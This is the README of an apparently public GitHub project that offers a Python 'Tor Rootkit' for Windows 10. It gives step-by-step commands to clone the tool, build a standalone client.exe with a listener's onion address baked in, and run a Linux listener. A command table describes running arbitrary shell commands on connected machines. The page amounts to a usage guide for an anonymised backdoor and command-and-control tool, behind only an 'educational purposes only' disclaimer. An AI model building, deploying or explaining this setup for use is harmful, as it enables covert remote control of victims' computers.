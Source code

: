 # Tor Rootkit
[![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)
![Standalone Compilation](https://github.com/emcruise/TorRootkit/workflows/Standalone%20Compilation/badge.svg)

A Python 3 standalone Windows 10 Rootkit. The networking works over tor hidden services.


## Installation
- Clone with git:
```bash
git clone https://github.com/emcruise/TorRootkit.git
```

- Change directory to the repository:
```bash
cd ./TorRootkit
```

### Listener
The listener is designed to run on linux.

#### Prerequisites
- [Tor](https://www.torproject.org/)
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)

1. Install all pip3 dependencies:
```bash
pip3 install -r listener/requirements.txt
```

2. Run the listener:
```bash
./listener/listener.py <hiddenservice-port> <local-port>
```

### Client
The client is designed to run on Windows 10.

#### Prerequisites
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)
- Add Python3 and Pip3 to PATH

1. Change directory to client:
```bash
cd .\client
```

2. Install all pip3 dependencies:
```bash
pip3 install -r requirements.txt
```
3. Build executable from build.py:
- downloads [Tor Expert Bundle](https://www.torproject.org/download/tor/)
- bundles python3 interpreter and tor expert bundle into 1 standalone .exe file
```bash
python build.py <listener-onion-address> <listener-onion-port>
```

3. Execute the bundled client:
```bash
.\dist\client.exe
```

## Disclaimer
Use for educational purposes only.

## Features
- Standalone executable, including python interpreter and tor expert bundle (~13MB)
- the whole communication works over tor hidden services which guarantees some degree of anonymity
- Listener can handle multiple clients

## Listener Shell Usage
### Listener Server Shell
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell |
| `list` | lists all connected clients with their according index |
| `select <index>` | start shell with client |

### Client Shell
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell and returns to listener shell |
| `os <command>` | Executes a command in the clients shell and returns the output |

## Contribution
All contributions are appreciated.

## Credit 
- [Tor](https://www.torproject.org/)
- [PyInstaller](https://www.pyinstaller.org/)
- [Colorama Font](https://pypi.org/project/colorama/)
- [PySocks](https://pypi.org/project/PySocks/)
- [Stem](https://stem.torproject.org/)

